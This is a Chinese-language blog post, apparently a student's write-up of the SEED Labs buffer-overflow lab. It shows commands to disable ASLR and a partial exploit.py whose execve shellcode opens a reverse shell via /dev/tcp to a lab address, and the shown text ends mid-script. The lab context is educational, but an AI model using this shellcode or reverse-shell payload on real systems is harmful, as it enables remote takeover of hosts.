 ```yaml
---
title: "SeedLab BufferOverFlow"
subtitle: "不会有人没做过seedlab吧"
layout: post
author: "Zhuhai"
header-style: text
tags:
  - seedlabs
---
```


# lab1 SeedLab - Buffer Over Flow

## task 1 Get familiar with shell code

根据老师课堂讲解， shell code 的主要作用是调用 execve syscall，可以执行我们预先设定好的命令，例如这里事先给的命令为
`"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"`，为三条命令。由于修改命令长度将导致二进制代码的错误，所以后续的命令长度需要和前者保持一致，用空格进行补齐。

## task 2 L1 attack
首先根据提示，输入命令 ` sudo sysctl -w kernel.randomize_va_space=0` 来关闭地址随机化。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102135143.png)

该 task 给出了 ebp 和 buffer 的地址，输入 `echo hello | nc 10.0.9.5 9090` 可以查看。
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102135323.png)
接下来更改已经写好一部分的 `exploit.py`，代码如下

```py

#!/usr/bin/python3
import sys

shellcode= (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   #"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL   # Put the shellcode in here
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd148+8     # Change this number 
offset = 0x74              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
```